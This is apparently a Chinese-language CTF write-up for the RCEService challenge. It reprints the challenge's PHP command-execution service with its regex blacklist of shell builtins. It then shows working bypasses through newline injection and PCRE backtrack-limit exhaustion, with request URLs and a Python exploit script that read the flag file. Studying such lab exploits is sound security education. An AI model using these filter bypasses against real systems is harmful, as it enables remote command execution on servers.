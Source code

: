 # [FBCTF2019]RCEService

[题目地址](https://buuoj.cn/challenges#[FBCTF2019]RCEService)

进网站看了看，命令要用这种方式输入：

- {"cmd":"ls"}

但是过滤了好多东西，/过滤了，.过滤了，基本能过滤的都过滤了。这怎么玩，看了[wp](https://blog.csdn.net/mochu7777777/article/details/105151353)才知道有源码没给出。

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?>
```

真的是过滤得不剩什么了，但是有个问题，使用的preg_match无法匹配多行，^和$符号也无济于事，加个%0a换行符就绕过了。于是我们正常执行命令，只需要在命令头和尾加上%0a就能绕过了。

- http://4610db05-7adf-404b-8c30-b1047f5c5703.node4.buuoj.cn:81/?cmd={%0A%22cmd%22:%20%22ls%20/%22%0A}
    > bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var

结果这次flag不在根目录下。[find](https://www.runoob.com/linux/linux-comm-find.html)命令找一找flag到底在哪里。

- http://4610db05-7adf-404b-8c30-b1047f5c5703.node4.buuoj.cn:81/?cmd={%0A%22cmd%22:%20%22/usr/bin/find%20/%20-name%20flag%22%0A}
    > /home/rceservice/flag

注意要用绝对路径/usr/bin/find。cat完事。

- http://4610db05-7adf-404b-8c30-b1047f5c5703.node4.buuoj.cn:81/?cmd={%0A%22cmd%22:%20%22/bin/cat%20/home/rceservice/flag%22%0A}
  > flag{a943a48b-b857-4021-a1f7-756b3bf6b600}

这题预期解是利用[pcre回溯](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)的问题。php的PCRE库使用了[NFA](https://zh.m.wikipedia.org/zh-cn/%E9%9D%9E%E7%A1%AE%E5%AE%9A%E6%9C%89%E9%99%90%E7%8A%B6%E6%80%81%E8%87%AA%E5%8A%A8%E6%9C%BA)作为正则引擎，NFA的运行方式如下。

假设要匹配的正则是<\?.\*[(`;?>].\*，输入是`<?php phpinfo();//aaaaa`。NFA一点一点读正则表达式。

**<**\?.\*[(`;?>].\*<Br>
**<**?php phpinfo();//aaaaa

正则的<匹配了输入的<。当前匹配成功则读取下一个字符。

**<\?**.\*[(`;?>].\*<br>
**<\?** php phpinfo();//aaaaa

?也匹配成功，继续。

**<\?.\***[(`;?>].\*<br>
**<\? php phpinfo();//aaaaa**

`.*`会匹配完接下来的所有字符，目前是没什么问题，但是读取下一个正则时就出问题了。

**<\?.\*[(`;?>]**.\*<br>
**<\? php phpinfo();//aaaaa** ？

发现输入已经没东西匹配了。此时NFA开始回溯，回退之前匹配的字符。

**<\?.\*[(`;?>]**.\*<br>
**<\? php phpinfo();//aaaa**a ？

回退出来的字符a仍然无法匹配[(`;?>]。继续回溯。

**<\?.\*[(`;?>]**.\*<br>
**<\? php phpinfo();//aaa**aa ？

还是不行。回溯这一步骤会重复执行，直到回溯到下面的状态。

**<\?.\*[(`;?>]**.\*<br>
**<\? php phpinfo()**;//aaaaa ？

这一步回溯回退出来的字符是`;`，匹配正则表达式[(`;?>]。便停止回溯，匹配上字符。

**<\?.\*[(`;?>]**.\*<br>
**<\? php phpinfo();**//aaaaa

最后的一个正则表达式匹配完接下来的所有内容。

**<\?.\*[(`;?>].\***<br>
**<\? php phpinfo();//aaaaa**

完全匹配成功，返回true。如果我们数一下，会发现回溯次数为8，而回溯次数是有上限的，默认是100万。如果输入字符串执行正则时回溯次数超过了这个上限，就会返回f
alse。此false非彼False，`var_dump(preg_last_error() === PREG_BACKTRACK_LIMIT_ERROR);`返回的结果是bool(true)。但这个false可以被强制转换，下面的waf：

```php
if(preg_match('/UNION.+?SELECT/is', $input)) {
    die('SQL Injection');
}
```

就可以利用pcre的回溯次数限制绕过。但是下面的waf：

```php
function is_php($data){  
    return preg_match('/<\?.*[(`;?>].*/is', $data);  
}

if(is_php($input) === 0) {
    // fwrite($f, $input); ...
}
```

就不可以。使用了===强等于，PREG_BACKTRACK_LIMIT_ERROR不等于0。利用这一特点，我们可以在payload末尾加一堆a，使其超过回溯限制。

```python
import requests

payload = '{"cmd":"/bin/cat /home/rceservice/flag","test":"' + "a"*(1000000) + '"}'
res = requests.post("http://4610db05-7adf-404b-8c30-b1047f5c5703.node4.buuoj.cn:81/", data={"cmd":payload})
#print(payload)
print(res.text)
```

## Flag
> flag{a943a48b-b857-4021-a1f7-756b3bf6b600}